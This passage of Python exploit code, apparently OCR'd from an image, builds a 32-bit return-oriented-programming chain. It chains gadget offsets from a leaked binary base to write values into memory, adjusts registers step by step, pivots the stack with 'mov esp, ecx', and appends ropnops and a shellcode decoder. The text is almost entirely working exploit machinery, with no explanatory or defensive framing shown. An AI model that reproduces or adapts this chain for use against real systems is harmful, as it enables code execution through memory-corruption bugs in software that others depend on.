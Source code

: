 ```python
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x62646 + binary_base, # add eax, 0x7f; ret;
	0x4d1ed + binary_base, # sub eax, 0x30; pop ebp; ret;
	0x41414141,
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x76096 + binary_base, # add eax, 8; ret;
	0x7ab35 + binary_base, # mov dword ptr [ecx], eax; pop ebp; ret;
	0x41414141,

	# Write size (0x401) to skeleton dummy value
	0x0582b + binary_base, 	# inc ecx; ret 0;
	0x0582b + binary_base, 	# inc ecx; ret 0;
	0x0582b + binary_base, 	# inc ecx; ret 0;
	0x0582b + binary_base, 	# inc ecx; ret 0;
	0x704F4 + binary_base,  # pop eax
	0x19b3  + binary_base,  # addr of 0x401;
	0x2bb8e + binary_base,  # mov eax, dword ptr [eax]; ret;
	0x7ab35 + binary_base,  # mov dword ptr [ecx], eax; pop ebp; ret;
	0x41414141,

	 # Move ecx back to skeleton & pivot stack there to execute the function
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x15935 + binary_base,	# dec ecx; ret;
	0x8b299 + binary_base, 	# mov esp, ecx; ret;
]

rop1 = b""
# add skeleton
for g in skeleton:
	  rop1 += p32(g)
# add ropnops (stack pivot not exact)
rop1 += p32(binary_base + 0x159d)*(24) # ropnop
# add rop shellcode decoder
rop1 += rop_decoder()
# fill up with ropnops until pivot gadget
```